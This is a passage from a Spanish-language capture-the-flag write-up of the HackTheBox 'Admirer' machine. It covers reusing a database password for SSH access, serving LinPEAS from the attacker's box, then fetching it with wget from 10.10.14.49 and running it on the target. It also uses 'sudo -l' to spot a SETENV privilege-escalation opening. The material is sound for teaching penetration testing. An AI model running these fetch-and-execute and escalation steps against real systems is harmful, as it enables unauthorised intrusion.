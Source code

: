 ![Desktop View](/assets/img/Admirer/Pasted image 20221101185216.png){: width="972" height="589" }

Con esto podemos entrar en la base de datos, cerrando sesion antes con la nuestra. Pero no hay información interesante. Probemos a ver si usa la misma contraseña en ssh.

Asi es,funciona:

![Desktop View](/assets/img/Admirer/Pasted image 20221101185546.png){: width="972" height="589" }


---

# Lateral Movement to user
## Local Enumeration
No hay
## Lateral Movement vector
No hay

---

# Privilege Escalation
## Local Enumeration
Lo primero que debe verificar son los vectores comunes de escalada de privilegios. Podemos automatizar esto usando LinPEAS
Como ya tenemos descargado linpeash en ~/Descargas desde esa ruta abrimos un server con python:
```python
python3 -m http.server 8000
```

Y desde el ssh de waldo nos vamos a /tmp y ahi hacemos un wget y ejecutamos linpeas:
```python
cd /tmp
wget 10.10.14.49:8000/linpeas.sh
bash ./linpeas.sh
```

Esta herramienta nos da mucha informacion pero sobre todo nos dice esto que nos puede interesar:

![Desktop View](/assets/img/Admirer/Pasted image 20221101191200.png){: width="972" height="589" }

Esa información es la misma que si hacemos:
```python 
sudo -l
```

Vamos hasta el archivo que podemos ver y hacemos cat:
Si nuestro ID de usuario efectivo es 0, es decir, root, entonces podemos ejecutar varias tareas de copia de seguridad. Curiosamente, la función backup_web() ejecutará el archivo backup.py.

Al inspeccionar nuestros permisos de sudo, se encuentra que podemos ejecutar el script admin_tasks.sh como root.
Además, se especifica la opción SETENV, que nos permite cambiar o añadir una variable de entorno.
